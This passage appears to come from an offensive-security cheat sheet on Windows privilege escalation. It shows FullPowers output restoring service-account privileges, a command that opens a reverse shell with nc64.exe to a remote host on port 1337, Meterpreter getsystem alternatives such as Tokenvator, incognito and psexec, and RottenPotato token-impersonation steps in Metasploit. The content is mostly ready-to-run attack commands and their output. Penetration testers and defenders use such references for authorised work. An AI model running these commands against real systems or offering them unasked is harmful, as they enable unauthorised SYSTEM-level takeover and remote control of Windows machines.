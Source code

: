> This tool should be executed as LOCAL SERVICE or NETWORK SERVICE only.

```powershell
# https://github.com/itm4n/FullPowers

c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

### Meterpreter getsystem and alternatives

```powershell
meterpreter> getsystem 
Tokenvator.exe getsystem cmd.exe 
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
psexec -s -i cmd.exe 
python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc
```

### RottenPotato (Token Impersonation)

* Binary available at : [foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato) and [breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)
* Exploit using Metasploit with `incognito mode` loaded.

    ```c
    getuid
    getprivs
    use incognito
    list\_tokens -u
    cd c:\temp\
    execute -Hc -f ./rot.exe
    impersonate\_token "NT AUTHORITY\SYSTEM"
    ```
